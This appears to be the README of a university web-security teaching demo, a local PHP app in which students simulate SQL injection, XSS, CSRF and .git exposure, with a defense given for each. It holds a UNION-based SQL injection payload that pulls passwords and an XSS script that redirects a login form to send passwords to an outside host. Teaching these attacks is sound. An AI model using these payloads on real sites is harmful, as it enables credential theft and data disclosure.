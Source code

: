 # Web Application Security Demo
- designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

> Older version of this workshop is available [here](https://github.com/intraworlds/zcu-security-demo)

## Presentation
[Slides](PRESENTATION.pdf)

## Development
### Requirements
- PHP >=7.1
- PHP extensions PDO and pdo_sqlite

### Installation
Clone this repository `git clone https://github.com/intraworlds/workshop-web-security.git` or download [ZIP file](https://github.com/intraworlds/workshop-web-security/archive/master.zip)

### Run
Inside downloaded project run
```bash
php -S 127.0.0.1:8080
```

Then goto http://127.0.0.1:8080/

### Simulate attacks

#### SQL injection
- go to http://127.0.0.1:8080/sql-injection
- search for `' UNION SELECT name,password FROM user --`
- observe disclosed password

##### Defense
Prepare statement
```php
// prepare SQL statement on DB without arguments
$statement = $pdo->prepare($sql);

// send arguments separately (safely)
$statement->execute(['%' . $query . '%']);

// execute as normal
$users = $statement->fetchAll();
```

#### XSS
- goto http://127.0.0.1:8080/xss
- put following comment
```html
❤️<script>
var form = document.querySelector('form');
form.setAttribute('action', 'https://httpbin.org/post');
form.setAttribute('target', '_blank');
</script>
```
- observe that all following backer are sending passwords to malicious server

##### Defense
escape your outputs
```php
echo htmlspecialchars($comment);
```

#### CSRF
- goto http://127.0.0.1:8080/csrf
- login
- open http://127.0.0.1:8080/kittens.php
- go back to http://127.0.0.1:8080/csrf
- observe that new order was created under your login

##### Defense
use `$_POST` for request which modifies data
```php
// verify CSRF token send with form is valid
if ($_SESSION['csrf'] !== $_POST['csrf']) {
    http_response_code(403);
    exit;
}

// generate CSRF token for the next request
$_SESSION['csrf'] = bin2hex(random_bytes(16));
```

#### Directory traversal
- todo http://127.0.0.1:8080/.git/HEAD
- observe that you have complete access to `.git` folder therefore to all files

##### Defense
- build application without `.git`
- separate public content (images, styles, etc.)
- adjust configuration of your web server, eg.
```
# denied all files
<RequireAll>
    Require all denied
</RequireAll>

# whitelist only *.php and other files
<Directory "public">
    <FilesMatch "((^$)|(^.+\.(css|map|js)$))">
        Require all granted
    </FilesMatch>
</Directory>
```


#### Weak hash algorithm
- obtain password hashes by SQL injection attack
- crack passwords by arbitrary online cracker (Rainbow table)

## Resources

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)
- Twitter
  - Michal Špaček [@spazef0rze](https://twitter.com/spazef0rze)
  - Vladimír Smitka [@smitka](https://twitter.com/smitka)

### XSS (Cross-site Scripting)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

### HTTP Headers
 - [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)

### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### Others
 - [Self tweeting tweet](https://twitter.com/derGeruhn/status/476764918763749376)
 - [XSS in Avast Desktop AntiVirus](https://medium.com/bugbountywriteup/5-000-usd-xss-issue-at-avast-desktop-antivirus-for-windows-yes-desktop-1e99375f0968)
